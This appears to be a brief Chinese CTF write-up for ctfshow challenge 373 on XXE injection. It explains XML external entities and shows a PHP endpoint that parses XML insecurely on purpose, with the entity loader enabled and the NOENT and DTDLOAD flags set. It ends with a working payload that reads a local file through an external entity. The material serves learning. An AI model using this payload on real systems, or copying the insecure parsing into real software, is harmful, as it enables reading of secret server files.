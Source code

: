 XXE Injection 即 XML External Entity Injection，也就是 XML 外部实体注入攻击. 漏洞是在对非安全的外部实体数据进⾏行处理时引发的安全问题。

在 XML 1.0 标准里，XML 文档结构⾥里定义了实体（entity）这个概念. 实体可以通过预定义在文档中调用，实体的标识符可访问本地或远程内容. 如果在这个过程中引入了「污染」源，在对 XML 文档处理后则可能导致信息泄漏等安全问题。

https://xz.aliyun.com/t/3357

https://www.dazhuanlan.com/2019/12/13/5df34ad37b39a/

## 373

```php
<?php

error_reporting(0);
libxml_disable_entity_loader(false);
$xmlfile = file_get_contents('php://input');
if(isset($xmlfile)){
    $dom = new DOMDocument();
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
    $creds = simplexml_import_dom($dom);
    $ctfshow = $creds->ctfshow;
    echo $ctfshow;
}
highlight_file(__FILE__);    
```



burp 抓包，post 传入：

```xml
<!DOCTYPE note [
<!ENTITY xxe SYSTEM "file:///flag">
]>
<note>
<ctfshow>&xxe;</ctfshow>
</note>
```

